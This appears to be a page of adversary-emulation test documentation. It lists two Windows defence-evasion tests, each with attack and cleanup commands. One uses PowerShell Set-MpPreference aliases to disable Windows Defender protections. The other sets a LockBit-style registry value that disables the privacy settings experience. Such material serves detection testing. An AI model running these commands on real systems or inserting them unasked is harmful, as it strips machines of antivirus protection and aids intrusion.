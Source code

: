 ## Atomic Test #31 - Tamper with Windows Defender ATP using Aliases - PowerShell

Attempting to disable scheduled scanning and other parts of Windows Defender ATP using set-MpPreference aliases. Upon execution Virus and Threat Protection will show as disabled
in Windows settings.

**Supported Platforms:** Windows

**auto_generated_guid:** c531aa6e-9c97-4b29-afee-9b7be6fc8a64

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
Set-MpPreference -drtm $True
Set-MpPreference -dbm $True
Set-MpPreference -dscrptsc $True
Set-MpPreference -dbaf $True
```

#### Cleanup Commands:

```powershell
Set-MpPreference -drtm 0
Set-MpPreference -dbm 0
Set-MpPreference -dscrptsc 0
Set-MpPreference -dbaf 0
```

<br/>
<br/>

## Atomic Test #32 - LockBit Black - Disable Privacy Settings Experience Using Registry -cmd

LockBit Black - Disable Privacy Settings Experience Using Registry

**Supported Platforms:** Windows

**auto_generated_guid:** d6d22332-d07d-498f-aea0-6139ecb7850e

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
reg add "HKCU\Software\Policies\Microsoft\Windows\OOBE" /v DisablePrivacyExperience /t REG_DWORD /d 1 /f
```

#### Cleanup Commands:

```cmd
reg delete "HKCU\Software\Policies\Microsoft\Windows\OOBE" /v DisablePrivacyExperience /f >nul 2>&1
```

<br/>
<br/>
